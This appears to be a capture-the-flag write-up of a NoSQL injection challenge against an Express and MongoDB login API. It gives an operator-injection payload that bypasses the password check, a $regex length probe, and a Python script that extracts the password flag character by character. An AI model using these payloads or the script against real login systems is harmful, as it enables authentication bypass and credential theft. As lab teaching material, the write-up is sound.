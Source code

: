 # NoSQL Injection

### Challenge
Provide Text :  The Mark LXXXV suit needs an urgent firmware upgrade.
![Home](Pasted image 20220224071532.png)

### Approach

#### Application Overview

- Application Stack
	WebServer : Express (Node.js web application server )
	![WebServer](Pasted image 20220224071626.png)
	Fevicon : MongoDB (NoSQL Database)
	![Fevicon](Pasted image 20220224061124.png)

- App Intraction
	The main.js send POST request to API /api/login with params ```username``` and ```password``` and response is not verbose

	![login](Pasted image 20220224062528.png)

	``` JavaScript
	const login = document.getElementById('login');
	const response = document.getElementById('response');

	login.addEventListener('submit', e => {

		e.preventDefault();

		fetch('/api/login', {
			method: 'POST',
			body: new URLSearchParams(new FormData(e.target))
		})
		.then(resp => resp.json())
		.then(data => {
			if (data.logged) {
				login.remove();
				response.innerHTML = data.message;
			} else {
				response.innerHTML = data.message;
			}
		});
	});
	```

#### Exploit

MongoDB is a NoSQL Database which uses JSON Object similar syntax to store data as documents. MongoDB uses BSON (Binary JSON) data format so the direct SQL injection is not possible, but some JSON and unserialized JavaScript expressions are permitted. For MongoDB, the most common such operator is `$where` which filters the results similarly to WHERE in SQ.
If the request body is encoded as JSON and the password is changed from a string to a query expression that evaluates to true, the password check becomes irrelevant and an attacker can authenticate themself as any user.

- Validating NoSQL injection
Sending the following query string as the NodeJS module `qs` parses the query string to the JSON and we have injection validated

```
username[$eq]=admin&password[$ne]=1
```
![valid](Pasted image 20220224064240.png)

- Guess the legth of password
As the flag is the password and we have to sort of perform a brutforce to extract the password.

\$regex will be used to perform regular expression search ```password[$regex]=.{n} ```, where n is the +ive number.  
.{n} will match to all the value till the length of the password and after that return error.

Using Burp intruder

![Intruder](Pasted image 20220224065002.png)

The response leght after 45 is 233 which means password length in 45 characters.

![PassLength](Pasted image 20220224065122.png)

- Retrieving flag

The flag will be in format knox{XXXXXXXXXXXXX}, these are 6 characters and total lenght of password is 45 thus 39 character left.

Using `$regex`  we can retrieve the password as well.
```username=admin&password[$regex]=knox\{a.*```
The regex will return true if first character in braces is a and anything after that, thus we use the same logic in our code.

![Script](pass.gif)

```Python
#!/usr/bin/python3  
import re  
import requests  
  
def main():  
	url = 'http://:9000/api/login'
	proxy= {  
	'http': 'http://127.0.0.1:8080'
	}
	headers = {'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'}  
	fail_msg = re.compile('Failed')  
	flag = "knox\{"  
	mydata = "username=admin&password[$regex]="  
	alphabates= ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z','0','1','2','3','4','5','6','7','8','9','_','A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z']

	print("Starting printing flag")  

	for r in range(39):  
		for i in alphabates:  
			postdata = mydata+flag+i+'.*'  
			#print(postdata)  
			res=requests.post(url,headers=headers,data = postdata,proxies=proxy)  
			checkresp = re.search('Failed',res.text)  
			if (checkresp):  
			#print('wrong')  
				pass  
			else:  
				flag=flag+i  
				print(flag,end='\r')  
				break  
				print(flag+'\}')  
  
if __name__ == '__main__':  
	main()
```
